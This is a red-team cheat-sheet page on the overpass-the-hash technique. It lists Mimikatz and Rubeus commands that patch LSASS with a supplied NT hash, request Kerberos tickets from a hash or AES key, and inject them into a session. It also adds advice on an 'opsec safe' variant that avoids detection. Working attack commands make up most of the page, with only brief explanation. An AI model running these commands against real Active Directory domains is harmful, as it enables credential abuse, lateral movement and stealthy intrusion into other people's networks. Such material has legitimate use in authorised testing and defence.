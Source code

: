 # Overpass-the-Hash




## Mimikatz

* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), open the LSASS process and patch it with the supplied NT hash. This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT:

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::pth /user:snovvcrash /domain:megacorp.local /run:c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ntlm:fc525c9683e8fe067095ba2ddc971889" "exit"
```




## Rubeus

* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), legitimately ask Kerberos for TGT, import it and interact with the process (need elevated context):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /password:Passw0rd! /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
```

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) manually, then use Rubeus with user's NT hash to ask for a TGT and import it:

```
Cmd > runas /netonly /user:megacorp.local\snovvcrash cmd
Enter the password for megacorp.local\snovvcrash: dummy_Passw0rd!
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /ptt
```

A more opsec safe approach is to use AES key (KeyType 0x12) instead of RC4-HMAC (KeyType 0x17) alongside with `/opsec` switch which instructs Rubeus not to do pre-auth (mimics standard Kerberos behavior):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /ptt /opsec
```
